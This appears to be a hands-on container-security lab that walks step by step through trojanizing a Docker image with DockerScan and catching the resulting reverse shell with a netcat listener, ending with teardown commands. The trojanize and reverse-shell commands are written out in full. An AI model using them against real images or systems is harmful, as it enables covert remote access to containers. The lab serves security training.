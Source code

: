 # Trojanized Docker Images - DockerScan

> A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

* Step 3: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 4: Trojanize the saved docker to create a `.tar` file

>> Note: `$(serverip)` will automatically takes your server ip. 

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

* Step 5: Run `netcat` command 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
nc -v -k -l $(serverip) 1337
```

* Step 6: Switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 7: Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

Step 8: When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

* Step 9: Switch to the right panel using `ctrl + b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

```commandline
ls
```

## Teardown

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

* Step 14: Remove Trojanized container
```commandline
docker rmi abhaybhargav/vul_flask
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
